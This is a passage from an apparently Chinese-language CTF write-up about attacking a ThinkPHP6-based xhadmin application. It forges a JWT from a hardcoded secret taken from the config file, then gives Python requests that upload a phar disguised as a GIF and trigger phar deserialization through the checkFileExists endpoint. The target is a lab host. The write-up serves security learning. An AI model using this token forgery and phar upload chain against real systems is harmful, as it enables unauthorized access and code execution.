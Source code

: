 而服务端并没有安装图片相关拓展：

{% asset_img not_installed.png %}

所以登陆admin这条路基本是堵死了，也没必要继续看admin controller（当然不排除有些未认证的controller，只是这题确实没有）

在api 的 `Base` controller中我们发现有很明显的上传文件的方法，也有读取文件的方法，非常显然是让我们用phar反序列化来加载tp6的链。所以问题就在于如何登陆。我们回头看一眼路由，发现 `Base` controller被套了一个 `JwtAuth` 中间件。这一中间件取 `Authorization` 请求头的值作为jwt进行验证，认证通过则取token中的uid写入当前session。`JwtAuth` 调用了 `Jwt` 类，而生成 `Jwt` 的 api controller `Common` 中配置了jwt的参数：

```php
// route.php

Route::rule('Base/Upload', 'Base/Upload')->middleware(['JwtAuth']); //图片上传;

// Common controller

$jwt
    ->setIss(config('my.jwt_iss'))
    ->setAud(config('my.jwt_aud'))
    ->setSecrect(config('my.jwt_secrect'))
    ->setExpTime(config('my.jwt_expire_time'));

// config/my.php

//jwt鉴权配置
'jwt_expire_time'    => 7200,               //token过期时间 默认2小时
'jwt_secrect'        => 'boTCfOGKwqTNKArT', //签名秘钥
'jwt_iss'            => 'client.xhadmin',   //发送端
'jwt_aud'            => 'server.xhadmin',   //接收端
```

从配置文件中拿到jwt secret，仔细过一遍认证函数，把必要的属性都给加上，再把过期时间 (`exp`) 调的久一些，一个jwt就伪造好了

{% asset_img fake_token.png 四千年后过期的token %}

带着这个token，我们就能上传文件了：

```python
host = 'http://172.35.6.101:31337'
info = ses.post(host+'/?s=api/Base/upload', headers={
    'Authorization': 
        'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.'
        'eyJzdWIiOiIxMjM0NTY3ODkwIiwidWlkIjoxL'
        'CJpc3MiOiJjbGllbnQueGhhZG1pbiIsImF1ZC'
        'I6InNlcnZlci54aGFkbWluIiwiZXhwIjoxNTE'
        '2MjM5MDIyMDAsImlhdCI6MTUxNjIzOTAyMn0.'
        'vbtgheHpxnrT9W4VX1ybguJ15cwYO2pbVNCvrE7FqfU'
}, files={
    'file': ('a.gif', open('phar.gif', 'rb'))
}).json()
print(info)
# {'status': '200', 'data': '/uploads/api/202105/60b3b5da99bed.gif'}
```

同时，上传文件的 `upload` 方法下面就有 `checkFileExists` 方法，可以用于触发 phar 反序列化：

```python
req = ses.get(host, params={
    's': 'api/Base/checkFileExists',
    'filepath': 'phar:///var/www/html/public'+info['data']
    # 经过和出题人沟通，在比赛题目环境中必须使用绝对路径
})
print(req.text[-200:])
```

tp6的链略，https://lmgtfy.app
